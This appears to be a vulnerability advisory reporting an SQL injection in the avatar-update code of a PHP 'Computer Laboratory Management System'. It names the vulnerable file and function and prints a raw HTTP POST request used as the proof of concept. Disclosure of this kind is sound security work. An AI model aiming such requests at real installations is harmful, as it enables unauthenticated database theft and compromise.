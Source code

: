 

The Computer Laboratory Management System has an SQL injection vulnerability that could be exploited by an attacker to steal information or compromise a database without authentication.





Source code address：https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html



The vulnerability is located in the /classes/ users.php file, just look at save_users, go down to 58 lines of code, when the '$upload' variable is true, the avatar update operation is performed, and the field corresponding to the user ID in the 'Users' table is also updated. There are SQL statement concatenation, resulting in security risks.

![image-20250315010514948](images/image-20250315010514948.png)



Vulnerability verification：

```
POST /php-lms/classes/Users.php?f=save HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
X-Requested-With: XMLHttpRequest
Content-Length: 797
Content-Type: multipart/form-data; boundary=---------------------------2824528375856
Connection: keep-alive

-----------------------------2824528375856
Content-Disposition: form-data; name="id"

1
-----------------------------2824528375856
Content-Disposition: form-data; name="firstname"

Adminstrator
-----------------------------2824528375856
Content-Disposition: form-data; name="middlename"

1111
-----------------------------2824528375856
Content-Disposition: form-data; name="lastname"

Admin
-----------------------------2824528375856
Content-Disposition: form-data; name="username"

admin
-----------------------------2824528375856
Content-Disposition: form-data; name="password"


-----------------------------2824528375856
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------2824528375856--

```

![image-20250315010439483](images/image-20250315010439483.png)



































